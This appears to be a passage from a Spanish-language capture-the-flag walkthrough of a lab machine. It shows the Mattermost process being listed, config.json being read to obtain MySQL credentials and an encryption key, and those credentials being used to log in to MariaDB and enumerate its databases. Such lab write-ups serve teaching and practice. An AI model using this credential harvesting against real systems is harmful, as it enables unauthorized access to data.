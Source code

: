 Listamos los procesos con el nombre "**mattermost**" e identificamos la ruta donde se encuentra montado el servidor (`/opt/mattermost/`).

```bash
maildeliverer@Delivery:~$ ps aux | grep -i mattermost
matterm+   707  0.0  3.7 1575864 150492 ?      Ssl  02:43   0:41 /opt/mattermost/bin/mattermost
matterm+  4291  0.0  0.5 1235572 21008 ?       Sl   12:03   0:00 plugins/com.mattermost.plugin-channel-export/server/dist/plugin-linux-amd64
matterm+  4298  0.0  0.6 1239060 27252 ?       Sl   12:03   0:02 plugins/com.mattermost.nps/server/dist/plugin-linux-amd64
maildel+ 28489  0.0  0.0   6208   880 pts/0    S+   20:20   0:00 grep -i mattermost
```

En esa ruta, encontramos la configuración y credenciales de la base de datos de **MatterMost**.

```bash
maildeliverer@Delivery:/opt/mattermost/config$ cat config.json

[...]

"SqlSettings": {
        "DriverName": "mysql",
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
        "DataSourceReplicas": [],
        "DataSourceSearchReplicas": [],
        "MaxIdleConns": 20,
        "ConnMaxLifetimeMilliseconds": 3600000,
        "MaxOpenConns": 300,
        "Trace": false,
        "AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",
        "QueryTimeout": 30,
        "DisableDatabaseSearch": false

[...]
```

Utilizando las credenciales encontradas, nos conectamos a **MySQL** y procedemos a enumerar las bases de datos disponibles.

```bash
maildeliverer@Delivery:/opt/mattermost/config$ mysql -u mmuser -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 411
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mattermost         |
+--------------------+
2 rows in set (0.000 sec)
```
